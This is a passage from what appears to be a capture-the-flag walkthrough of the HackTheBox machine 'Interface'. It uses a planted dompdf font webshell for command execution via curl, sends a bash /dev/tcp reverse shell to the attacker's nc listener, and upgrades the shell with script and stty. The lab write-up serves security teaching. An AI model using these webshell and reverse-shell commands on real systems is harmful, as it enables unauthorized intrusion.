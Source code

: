 

It works:



    oxdf@hacky$ curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php?cmd=id -o- | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



Because the file is binary, I'll need `-o-` to get `curl` to output it
to STDOUT. I'm then piping that result into `tail` to remove all the
binary junk, printing just the last line, which is the output of the
webshell.

### Shell

To get a shell, I'll convert the previous command into a POST request,
with URL encoded data, just to make sure it still works:



    oxdf@hacky$ curl -s --data-urlencode 'cmd=id' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



Now I'll replace the `id` with a simple [Bash
webshell](https://www.youtube.com/watch?v=OjkVep2EIlw):



    oxdf@hacky$ curl -s --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php



It hangs, but there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.200 59630
    bash: cannot set terminal process group (1290): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 



I'll upgrade my shell with the `script` / `ssty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
    <r/dompdf/dompdf/lib/fonts$ script /dev/null -c bash     
    Script started, file is /dev/null
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
